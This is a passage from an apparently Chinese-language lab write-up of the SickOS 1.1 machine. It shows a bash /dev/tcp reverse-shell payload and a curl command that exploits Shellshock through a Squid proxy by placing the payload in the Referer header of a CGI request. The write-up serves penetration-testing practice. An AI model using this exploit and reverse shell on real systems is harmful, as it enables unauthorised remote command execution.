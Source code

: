 ![image-20231210144254579](./SickOS1.1.assets/image-20231210144254579.png)

> Payload:`0<&185-;exec 185<>/dev/tcp/10.9.75.3/6868;sh <&185 >&185 2>&185`

payload一会要放入curl构造的payload命令中。先在kali中开启监听6868端口

## GetShell

然后使用curl命令执行payload

```bash
curl -v --proxy http://10.9.75.14:3128 http://10.9.75.14/cgi-bin/status -H "Referer:() {  test;}; 0<&185-;exec 185<>/dev/tcp/10.9.75.3/6868;sh <&185 >&185 2>&185"
```

![image-20231210144700255](./SickOS1.1.assets/image-20231210144700255.png)
